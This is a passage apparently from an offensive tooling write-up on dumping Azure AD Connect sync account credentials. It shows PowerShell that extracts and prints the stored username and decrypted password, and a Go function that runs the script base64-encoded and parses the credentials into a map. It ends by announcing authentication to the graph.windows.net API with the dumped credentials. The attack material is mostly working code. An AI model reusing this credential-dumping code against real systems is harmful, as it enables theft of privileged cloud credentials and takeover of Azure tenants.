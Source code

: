 ```powershell
Write-Host "Username: $($username.Username)"
Write-Host "Password: $($password.Password)"
```
to 
```powershell
$username = select-xml -Content $config -XPath "//parameter[@name='UserName']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host "[*] Credentials incoming...`n"
Write-Host "[*] Azure Credentials"
Write-Host "UserName: $($username.UserName)"
Write-Host "Password: $($password.Password)`n"

```

The Details of how the powershell script is able to dump credentials in the first place can be found above (seriously check it out)
I encoded the above powershell script in base64 and run it within the golang code just for ease of use.
The function that performs the dump is below

```go
func DumpCreds()map[string]string {
    posh := New()
    //fmt.Println("With encoding change:")
     stdout, _, err := posh.Execute(`//5XAHIAaQB0AGUALQBIAG8Ac...`)
     s := strings.Split(stdout,"\n")

    fmt.Println(stdout)

    if err != nil {
            fmt.Println(err)
    }

    User := strings.Split(s[10],":")
    Pass := strings.Split(s[11],":")
    UserName := strings.TrimSpace(User[1])
    PassWord := strings.TrimSpace(Pass[1])
    AzureCredsMap := make(map[string]string)
    AzureCredsMap["AzureUserName"] = UserName
    AzureCredsMap["AzurePassWord"] = PassWord
    return AzureCredsMap
```

## Authenticate with dumped creds
So at this point you have the sync account credentials.

![asmi popup](/credsOutput.png)

Now we can authenticate to the graph.windows.net api using go
